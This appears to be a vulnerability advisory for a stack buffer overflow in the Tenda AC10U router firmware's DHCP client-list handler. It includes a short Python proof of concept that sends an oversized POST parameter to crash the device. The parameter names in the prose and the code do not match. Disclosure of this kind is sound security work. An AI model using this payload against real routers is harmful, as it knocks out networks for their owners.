

# Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the listN parameter in the fromDhcpListClient function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formDhcpListClient" retrieves the parameter "LISTEN" and "listN" using "websGetVar", The POST parameter "listN" is concatenated in the program. However, the program fails to check the length of the POST argument. By setting "LISTEN" equal to 1, we can trigger a stack overflow, causing the program to enter an unsafe state. This overflow can overwrite the "LISTEN" pointer variable, leading to a crash in the atoi function. As a result, a denial-of-service (DoS) attack can be initiated during the second iteration of the loop.



## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/DhcpListClient'
payload = {
    "LISTLEN": "1",
    "list1": 'A'*0x300,
    "page": '1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
